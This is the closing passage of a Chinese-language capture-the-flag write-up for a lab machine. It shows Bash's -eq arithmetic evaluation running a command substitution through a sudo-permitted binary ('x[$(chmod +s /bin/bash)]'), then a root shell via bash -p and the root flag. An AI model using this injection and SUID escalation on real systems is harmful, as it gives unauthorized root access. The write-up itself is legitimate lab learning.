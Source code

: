 > 在Bash中，当使用-eq运算符时，它首先尝试。
> 解释并执行参数，包括命令。
> 类似于\$(命令)的替换。如果参数是字符串。
> (如‘x[\$(Touch LOL)]’)，执行$(Touch LOL)部分。
> 在数字比较之前。

算是一种特性吧，学到了，我们可以利用这个特性进行提权：

```
sudo /opt/GiftPursuit 'x[$(chmod +s /bin/bash)]'
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404022019333.png" alt="image-20240402201728516" style="zoom:50%;" />

这样的话bash就有了suid权限，直接提权即可：

```bash
╭─mr-jack@christmas /opt 
╰─$ /bin/bash -p
(remote) root@christmas.hmv:/opt# cd /root
(remote) root@christmas.hmv:/root# ls 
root.txt
(remote) root@christmas.hmv:/root# cat root.txt
93ba7e97218f577271c3867abf31ae8a
```

得到flag。。。。真是酣畅淋漓啊，裂开了。

## 参考

https://zhuanlan.zhihu.com/p/518320174

https://www.youtube.com/watch?v=HCLARBhJbvo

https://caiguanhao.wordpress.com/2013/06/17/linux-pptp-vpn/

https://liotree.github.io/2023/webid.html
